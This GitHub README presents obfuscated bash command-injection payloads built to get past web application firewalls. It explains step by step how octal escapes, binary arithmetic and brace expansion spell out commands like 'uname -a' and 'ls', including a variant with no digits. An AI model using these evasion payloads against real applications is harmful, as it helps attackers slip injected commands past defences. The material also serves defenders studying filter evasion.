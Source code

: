 # Bash-Command-Injection
Bash Command Injection WAF Bypass

<img src="cmd-injection.png" align="center">

- [Decimal -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

<br>

<hr>

<br>

> `uname -a`: <br>
```bash
${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> Using a **comma** `,` from **Brace Expansion** so it acts like a **space**. <br>
> The reason why we use **Brace Expansion**: <br>
```console
$ echo {ola,mundo}
ola mundo
```

> In short, this is what's happening: ([Click to see full explanation](#full-explanation))
- `{\$\'command1\',\$\'command2-or-argument2\'}`

<br>

<hr>

<br>

### Video Example:

[![Link](https://img.youtube.com/vi/B4mpV44Z1-8/0.jpg)](https://www.youtube.com/watch?v=B4mpV44Z1-8)

<br>

<hr>

<br>

### Full Explanation:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call a UTF-8 decimal to be interpreted to text, just like so (154 in decimal == l; 163 in decimal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (decimal "154" to binary is "10011010") is equal to 154
# This is a method I found that works but is a little confusing:
# Text to octal: "http://www.unit-conversion.info/texttools/octal/"
# Decimal to binary: "https://www.rapidtables.com/convert/number/decimal-to-binary.html"
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (decimal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"
# or echo -e "\0154\163" to print it as a string

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg


# Bonus without using numbers:
# ${0##\-}<<<$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
                                        ^ 10011010                                                   ^ 10100011

${##} == 1
${#}  == 0

echo -ne "${##}${#}${#}${##}${##}${#}${##}${#} ${##}${#}${##}${#}${#}${#}${##}${##}\n"
```
